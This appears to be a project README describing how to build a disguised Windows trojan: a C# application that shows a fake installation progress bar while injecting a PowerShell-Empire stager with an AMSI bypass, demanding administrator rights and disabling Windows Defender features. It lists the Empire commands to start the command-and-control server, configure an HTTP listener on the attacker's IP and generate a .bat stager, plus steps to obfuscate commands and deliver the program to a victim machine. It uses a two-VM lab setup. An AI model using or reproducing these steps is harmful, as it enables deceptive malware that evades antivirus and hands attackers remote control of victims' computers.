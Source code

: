 ```
     ______          __             __    __         __
   / ____/___ ___  / /_  ___  ____/ /___/ /__  ____/ /
  / __/ / __ `__ \/ __ \/ _ \/ __  / __  / _ \/ __  / 
 / /___/ / / / / / /_/ /  __/ /_/ / /_/ /  __/ /_/ /  
/_____/_/ /_/ /_/_.___/\___/\__,_/\__,_/\___/\__,_/   

                            `````````
                         ``````.--::///+
                     ````-+sydmmmNNNNNNN
                   ``./ymmNNNNNNNNNNNNNN
                 ``-ymmNNNNNNNNNNNNNNNNN
               ```ommmmNNNNNNNNNNNNNNNNN
              ``.ydmNNNNNNNNNNNNNNNNNNNN
             ```odmmNNNNNNNNNNNNNNNNNNNN
            ```/hmmmNNNNNNNNNNNNNNNNMNNN
           ````+hmmmNNNNNNNNNNNNNNNNNMMN
          ````..ymmmNNNNNNNNNNNNNNNNNNNN
          ````:.+so+//:---.......----::-
         `````.`````````....----:///++++
        ``````.-/osy+////:::---...-dNNNN
        ````:sdyyydy`         ```:mNNNNM
       ````-hmmdhdmm:`      ``.+hNNNNNNM
       ```.odNNmdmmNNo````.:+yNNNNNNNNNN
       ```-sNNNmdh/dNNhhdNNNNNNNNNNNNNNN
       ```-hNNNmNo::mNNNNNNNNNNNNNNNNNNN
       ```-hNNmdNo--/dNNNNNNNNNNNNNNNNNN
      ````:dNmmdmd-:+NNNNNNNNNNNNNNNNNNm
      ```/hNNmmddmd+mNNNNNNNNNNNNNNds++o
     ``/dNNNNNmmmmmmmNNNNNNNNNNNmdoosydd
     `sNNNNdyydNNNNmmmmmmNNNNNmyoymNNNNN
     :NNmmmdso++dNNNNmmNNNNNdhymNNNNNNNN
     -NmdmmNNdsyohNNNNmmNNNNNNNNNNNNNNNN
     `sdhmmNNNNdyhdNNNNNNNNNNNNNNNNNNNNN
       /yhmNNmmNNNNNNNNNNNNNNNNNNNNNNmhh
        `+yhmmNNNNNNNNNNNNNNNNNNNNNNmh+:
          `./dmmmmNNNNNNNNNNNNNNNNmmd.
            `ommmmmNNNNNNNmNmNNNNmmd:
             :dmmmmNNNNNmh../oyhhhy:
             `sdmmmmNNNmmh/++-.+oh.
              `/dmmmmmmmmdo-:/ossd:
                `/ohhdmmmmmmdddddmh/
                   `-/osyhdddddhyo:
                        ``.----.`
    ______                _              ___                    __ 
   / ____/___ ___  ____  (_)_______     /   | ____ ____  ____  / /_
  / __/ / __ `__ \/ __ \/ / ___/ _ \   / /| |/ __ `/ _ \/ __ \/ __/
 / /___/ / / / / / /_/ / / /  /  __/  / ___ / /_/ /  __/ / / / /_  
/_____/_/ /_/ /_/ .___/_/_/   \___/  /_/  |_\__, /\___/_/ /_/\__/  
               /_/                         /____/                  
```

> ⚠️ **Warning:** As of today, this may not be able to bypass AMSI anymore


## Techno & Tools

- C#
- Python
- PowerShell-Empire
- [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

## Process

### Setup Environment

- You will need 2 VMs
    - Windows (Victim)
    - Kali Linux (Attacker)

### Configure C2

#### 1. Start PowerShell-Empire

<aside>
📌 Open 2  terminal and in each one enter these command (one in each)

</aside>

```bash
sudo powershell-empire server
sudo powershell-empire client
```

#### 2. Configure Listener

```bash
uselistner http
set Name <Name>
set Host <Your IP>
set Port <Port>
execute
```

#### 3. Configure Stager

<aside>
📌 This will generate .bat file

</aside>

```bash
usestager windows/laucher_bat
set listener <listener_name>
execute
```

## Coding Application

💡Make Progress Bar that will make it seem, like it is installing something but in the background it will inject the stager + AMSI Bypass (The patch is only applied for one PowerShell session after that it goes back to default)


- I added an app-manifest that requires the application to be executed as administrator, so I would already have elevated privilege
- I also added some PowerShell command to deactivate some functionalities of windows defender, to be able to execute the script (They will be obfuscated)
- Now Your question might be why you need an AMSI bypass if you will disable windows defender. The thing is when you some PowerShell command AMSI will block it’s execution because it might be a malicious command even if it is obfuscated

### Obfuscation

📌 Follow the instruction in this repository: [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) , to install Invoke-Obfuscation on you attacking machine (Do it in a new terminal)

You can encode any PowerShell command that you add in the Agent Process class

## Delivery

```bash
dotnet build
```

## Testing

- Zip the program
- Put it on the victim machine
- unzip it
- execute program
   - Will have to keep my listener running on my PowerShell machine
